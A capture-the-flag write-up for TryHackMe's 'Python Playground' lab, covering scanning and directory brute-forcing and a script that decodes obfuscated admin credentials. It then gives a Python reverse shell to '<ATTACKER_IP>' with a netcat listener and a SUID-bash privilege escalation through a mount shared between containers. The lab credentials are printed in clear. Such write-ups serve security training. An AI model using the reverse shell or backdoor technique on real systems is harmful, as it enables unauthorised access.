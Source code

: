 # [Python Playground](https://tryhackme.com/room/pythonplayground)

## Be creative!

# Hack it!

## Jump in and grab those flags! They can all be found in the usual places.

### What is flag 1?

_Exploit the web app._

1. Perform network scan to identify open ports and services

```bash
nmap <TARGET_IP>
```

<img width="725" height="165" alt="SCREEN01" src="https://github.com/user-attachments/assets/7d3646e9-ec90-4efd-976f-d5fa2ab82cfd" />

2. Search for hidden directories and files on the web server
   - We are looking for `admin.html`

```bash
gobuster dir -u http://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,js
```

<img width="719" height="413" alt="SCREEN02" src="https://github.com/user-attachments/assets/a68e8919-d437-42d6-989c-3789f9646504" />

3. Analyze JavaScript code in `view-source:http://<TARGET_IP>/admin.html` to decode obfuscated credentials
   - Credentials are: `connor:spaghetti1245`

```python
def decode_custom_hash(encoded_text):
    int_array = [ord(char) - ord('a') for char in encoded_text]
    result = ''

    for i in range(0, len(int_array), 2):
        charcode = int_array[i] * 26 + int_array[i + 1]
        result += chr(charcode)

    return result

hash_value = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'

first_decode = decode_custom_hash(hash_value)
password = decode_custom_hash(first_decode)
print(f'Password: {password}')
```

<img width="721" height="35" alt="SCREEN03" src="https://github.com/user-attachments/assets/4d2fd20d-0734-43b0-af10-053b2c46c18b" />

4. Log in with extracted credentials, and navigate to `http://<TARGET_IP>/super-secret-admin-testing-panel.html`

5. Set up netcat listener on attack machine

```bash
nc -lvnp 4444
```

6.  Use the Python execution capability to establish a connection back to the attack machine

```python
import	socket,os,subprocess

s=socket.socket()
s.connect(('<ATTACKER_IP>',4444))
[os.dup2(s.fileno(),i) for i in range(3)]
subprocess.call('/bin/sh')
```

7. Improve shell functionality for better interaction

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

8. Navigate to home directory and read the first flag

```bash
cd
cat flag1.txt
```

<img width="721" height="123" alt="SCREEN04" src="https://github.com/user-attachments/assets/366243a8-123a-4385-99c1-1e355c24abaa" />

---

### What is flag 2?

_You're going to need to get some credentials._

1. Use previously obtained credentials to establish SSH connection

```bash
ssh connor@<TARGET_IP>
# password: spaghetti1245
cat flag2.txt
```

<img width="652" height="375" alt="SCREEN05" src="https://github.com/user-attachments/assets/c5b99735-a26e-40b8-bf44-b58367cc75b6" />

---

### What is flag 3?

1. Leverage writable shared directory between containers for privilege escalation
   - The `/var/log` directory appears to be mounted as `/mnt/log` with different permissions on another system

```bash
# From root@playgroundweb container - Create and set permissions for backdoor binary
touch /mnt/log/bash
chmod 777 /mnt/log/bash

# From connor@pythonplayground - Copy bash binary to shared location
cp /bin/bash /var/log/bash

# From root@playgroundweb container - Set SUID bit on the binary
chmod +s /mnt/log/bash

# From connor@pythonplayground - Execute SUID bash with preserved privileges
/var/log/bash -p
whoami
cat /root/flag3.txt
```

<img width="647" height="112" alt="SCREEN06" src="https://github.com/user-attachments/assets/db0d0e96-10fc-4620-b09b-1643ff1842c7" />
